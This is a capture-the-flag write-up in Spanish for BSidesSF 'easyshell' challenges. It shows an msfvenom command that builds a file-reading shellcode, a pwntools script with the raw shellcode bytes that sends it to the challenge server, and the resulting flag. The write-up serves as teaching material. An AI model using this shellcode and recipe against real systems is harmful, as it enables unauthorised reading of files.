 #### Enunciado

Te daban el código fuente de dos ELF, uno de 32 bits y otro de 64 bits, y un servicio corriendo en un servidor donde tenías que enviar un 
exploit remoto para leer el archivo /home/ctf/flag.txt

#### Solución

Ambos casos se solucionan de la misma manera, creando un shellcode para leer archivos. Sin embargo, para el caso de 32 bits tendremos la inestimable ayuda de metasploit y usaremos el payload de msfvenom de metasploit que te permite leer un archivo. En el caso de 64 bits te puedes programar en ensamblador un shellcode o bien puedes usar uno de los que hay en shell-storm: http://shell-storm.org/shellcode/files/shellcode-878.php


##### easyshell32

Creamos el payload con metasploit:

```
msfvenom -p linux/x86/read_file PATH=/home/ctf/flag.txt -n 16 -b '\x00\x20\x0d\x0a' -f python
```

Y así generamos nuestro cutre script que nos da el valor del flag:

```python
#!/usr/bin/env python
import sys
from pwn import *

buf =  ""
buf += "\x2f\x98\x4b\xfc\x41\x9b\x93\x27\x41\xf5\x91\x40\x98"
buf += "\x9b\xd6\x90\xdd\xc2\xb8\xca\x62\x2e\xa4\xd9\x74\x24"
buf += "\xf4\x5b\x33\xc9\xb1\x15\x83\xc3\x04\x31\x43\x13\x03"
buf += "\x89\x71\xcc\x51\xe6\x40\xa8\x9f\xf8\xac\xc8\xc4\xc9"
buf += "\x65\x05\x7a\xa0\xb5\x2e\x78\xb2\x39\x4f\xf6\x55\xb0"
buf += "\xb6\xb2\x99\xd3\x48\xc3\x54\x53\xc1\x01\xde\x50\xd2"
buf += "\x85\x1e\xe2\xd3\x85\x1e\x14\x19\x05\xa6\x15\xa1\x06"
buf += "\xd6\xae\xa1\x06\xd6\xd0\x6c\x86\x3e\x15\x91\x78\x41"
buf += "\xb9\x06\xe8\xd0\xa3\xf9\x95\x5e\x4a\x29\x3c\xf2\xf3"
buf += "\x52\xee\x7e\x8c\xe8\xee"


addr = "easyshell-f7113918.ctf.bsidessf.net"
conn = remote(addr, 5252)

conn.send(buf)
conn.interactive()
conn.close()
```

FLAG:c832b461f8772b49f45e6c3906645adb


